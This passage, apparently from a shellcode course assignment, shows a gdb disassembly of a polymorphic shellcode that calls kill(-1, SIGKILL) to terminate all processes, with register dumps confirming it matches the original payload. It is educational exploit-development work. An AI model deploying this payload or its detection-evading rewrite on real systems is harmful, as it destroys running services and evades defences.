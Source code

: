#### Disassembly of the Polymorphic Shellcode

~~~ nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./kill-all-processes
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/kill-all-processes...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/kill-all-processes

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	push   0x9
   0x08048082 <+2>:	mov    al,0x9
   0x08048084 <+4>:	mov    cl,0x4
   0x08048086 <+6>:	mul    cl
   0x08048088 <+8>:	inc    al
   0x0804808a <+10>:	pop    ecx
   0x0804808b <+11>:	push   0xffffffff
   0x0804808d <+13>:	pop    ebx
   0x0804808e <+14>:	int    0x80
End of assembler dump.
(gdb) break *0x0804808e
Breakpoint 2 at 0x804808e
(gdb) c
Continuing.

Breakpoint 2, 0x0804808e in _start ()
(gdb) i r
eax            0x25	37
ecx            0x9	9
edx            0x0	0
ebx            0xffffffff	-1
esp            0xbffff700	0xbffff700
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
eip            0x804808e	0x804808e <_start+14>
eflags         0x202	[ IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb)
~~~

After comparing the state of the general purpose registers in the original shellcode and the polymorphic shellcode, it is evident that all replaced instructions are semantically equivalent and the functionality of the original shellcode is preserved.
